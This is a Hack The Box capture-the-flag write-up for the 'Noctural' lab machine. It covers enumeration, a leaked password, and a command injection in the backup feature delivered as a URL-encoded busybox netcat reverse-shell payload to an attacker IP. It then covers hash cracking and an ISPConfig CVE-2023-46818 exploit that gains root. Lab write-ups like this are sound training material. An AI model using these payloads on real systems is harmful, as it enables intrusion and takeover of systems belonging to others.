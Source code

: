 ```yaml
---
clayout: ctf
title: Noctural
date: 2025-05-24
image: /ctf/hack-the-box/machines/noctural/info-card.png
type: Hack The Box

ctf:
  - name: Noctural
    link: https://app.hackthebox.com/machines/656
    thumbnail: /ctf/hack-the-box/machines/noctural/info-card.png
    pwned:
      - link: https://labs.hackthebox.com/achievement/machine/585215/656
        thumbnail: /ctf/hack-the-box/machines/noctural/pwned.png
---
```


# Enumeration

## Nmap Scan

The initial step involved performing a comprehensive Nmap scan to identify open ports and running services:

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.11.64
```

**Nmap Results:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 RSA    202688700851eede3aa6204187962517
|   256 ECDSA  4f800533a6d42264e9ed14e312bc96f1
|   256 ED25519 d9881f68438ed42a52fcf066d4b9ee6b
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
```

| Port | Service | Version                                                       |
| ---- | ------- | ------------------------------------------------------------- |
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0) |
| 80   | HTTP    | nginx 1.18.0 (Ubuntu)                                         |

The scan revealed two open services: SSH on port 22 and an HTTP server on port 80.

## Web Enumeration

### Hostname Resolution

The web server on port 80 redirected to `http://nocturnal.htb/`. To resolve this hostname locally, the following entry was added to `/etc/hosts`:

```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

### Web Interface Analysis

Navigating to `http://nocturnal.htb` displays a login and registration interface:

* **Home Page**
  ![Home page](/ctf/hack-the-box/machines/noctural/home.png)

* **Register Form**
  ![Register form](/ctf/hack-the-box/machines/noctural/register.png)

* **Login Form**
  ![Login form](/ctf/hack-the-box/machines/noctural/login.png)

After registering and logging in, a user dashboard becomes accessible:

![Dashboard](/ctf/hack-the-box/machines/noctural/dashboard.png)

The application supports uploading the following file types: `pdf`, `doc`, `docx`, `xls`, `xlsx`, `odt`. These files can later be downloaded using a URL of the form:

```text
http://nocturnal.htb/view.php?username=<user>&file=<filename>
```

This hints at possible user enumeration via the `username` parameter.

### User Enumeration with FFUF

Using `ffuf`, we attempt to enumerate valid usernames based on the server’s responses:

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -u "http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf" \
     -H "Cookie: PHPSESSID=mspl3bsbgaamrho4b5sauk7u5k" \
     -fr "User not found."
```

**Command Breakdown:**

* `-w`: Wordlist for usernames
* `-u`: Target URL with `FUZZ` keyword for injection
* `-H`: Authenticated session cookie
* `-fr`: Response filter string to identify successful hits

The scan revealed a valid user: **amanda**.

![ffuf output](/ctf/hack-the-box/machines/noctural/ffuf.png)

Upon accessing Amanda's file list, we found a document named `privacy.odt`:

![Amanda list of files](/ctf/hack-the-box/machines/noctural/amanda-files.png)

**Contents of `privacy.odt`:**

```txt
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J
```

Using it with the `amanda` account allows us to log in and access the **Admin Dashboard**:

![Admin dashboard](/ctf/hack-the-box/machines/noctural/admin-dashboard.png)

### Command Injection in Backup Feature

The dashboard lets you back up files using a zip command that looks like this:

```php
zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

Using this payload we get a shell as the `www-data` user.

```bash
mypassword%0Abusybox%09nc%0910.10.14.10%094444%09-e%09/bin/sh
```

![www-data shell](/ctf/hack-the-box/machines/noctural/www-data-shell.png)

### Lateral Movement

We found a user named `tobias` in `/etc/passwd`.

The `login.php` file pointed to the SQLite DB:

```php
../nocturnal_database/nocturnal_database.db
```

Grabbed it with a simple HTTP server:

```bash
python3 -m http.server 1337
```

The `users` table had a hashed password for `tobias`. Cracked it using [CrackStation](https://crackstation.net/):

```
tobias:slowmotionapocalypse
```

Logged in via SSH as `tobias`.


# Privilege Escalation

### Local Port Discovery

A port scan on the local machine revealed that port **8080** was listening locally:

```bash
(netstat -punta || ss --ntpu)

tcp   0   0 127.0.0.1:8080   0.0.0.0:*   LISTEN   -
```

### Port Forwarding via SSH

To access the internal service, SSH port forwarding was established:

```bash
ssh tobias@10.10.11.64 -L 8081:127.0.0.1:8080
```

Navigating to `http://localhost:8081` reveals an **ISPConfig** login page:

![ISP config login](/ctf/hack-the-box/machines/noctural/isp-config-login.png)

Using credentials `admin:slowmotionapocalypse`, we logged in:

![ISP config dashboard](/ctf/hack-the-box/machines/noctural/isp-config-dashboard.png)

### Exploiting ISPConfig

The "Help" section shows the software version: `3.2.10p1`. A known remote code execution vulnerability exists for this version: [CVE-2023-46818](https://github.com/bipbopbup/CVE-2023-46818-python-exploit).

**Exploit Execution:**

```bash
python exploit.py http://127.0.0.1:8081/ admin slowmotionapocalypse
```

![ISP config exploit](/ctf/hack-the-box/machines/noctural/isp-config-exploit.png)

The exploit successfully yields a shell as the **root** user.
The root flag was retrieved from `/root/root.txt`
